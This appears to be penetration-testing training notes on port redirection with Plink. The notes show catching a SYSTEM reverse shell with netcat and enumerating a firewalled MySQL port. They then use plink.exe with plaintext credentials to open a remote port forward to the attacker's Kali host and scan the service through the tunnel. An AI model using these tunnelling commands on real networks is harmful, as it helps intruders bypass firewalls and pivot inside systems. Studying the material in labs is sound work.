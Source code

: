 ```yaml
---
description: >-
  Plink
title:  Plink             # Add title here
date: 2022-11-13 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, Plink]                     # Change Templates to Writeup
tags: [port redirection and tunneling, plink]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


To demonstrate this, assume that we have gained access to a Windows 10 machine during our assessment through a vulnerability in the Sync Breeze software and have obtained a SYSTEM-level reverse shell.

```bash
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49937
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

During the enumeration and information gathering process, we discover a MySQL service running on TCP port 3306.

```powershell
C:\Windows\system32>netstat -anpb TCP
netstat -anpb TCP 

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
 [syncbrs.exe]
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  RpcSs
 [svchost.exe]
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
 Can not obtain ownership information
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
 [mysqld.exe]
```

We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.

We will transfer [plink.exe](http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html), a Windows-based command line SSH client (part of the PuTTY project) to the target to overcome this limitation. The program syntax is similar to the UNIX-based ssh client:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe
plink.exe
Plink: command-line connection utility
Release 0.70
Usage: plink [options] [user@]host [command]
       ("host" can also be a PuTTY saved session name)
Options:
  -V        print version information and exit
  -pgpfp    print PGP key fingerprints and exit
  -v        show verbose messages
  -load sessname  Load settings from saved session
  -ssh -telnet -rlogin -raw -serial
            force use of a particular protocol
  -P port   connect to specified port
  -l user   connect with specified username
  -batch    disable all interactive prompts
  -proxycmd command
            use 'command' as local proxy
  -sercfg configuration-string (e.g. 19200,8,n,1,X)
            Specify the serial configuration (serial only)
The following options only apply to SSH connections:
  -pw passw login with specified password
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
  -X -x     enable / disable X11 forwarding
  -A -a     enable / disable agent forwarding
  -t -T     enable / disable pty allocation
...
```

We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the following command:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

The first time plink connects to a host, it will attempt to cache the host key in the registry. If we run the command through an rdesktop connection to the Windows client, we can see this interactive step:

![Plink-sh](/assets/img/Pasted image 20230503172914.png)

However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:

```powershell
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$  
```

Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:

```bash
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

The setup seems to be working. We have successfully scanned the Windows 10 machine's SQL service through a remote port forward on our Kali attack machine.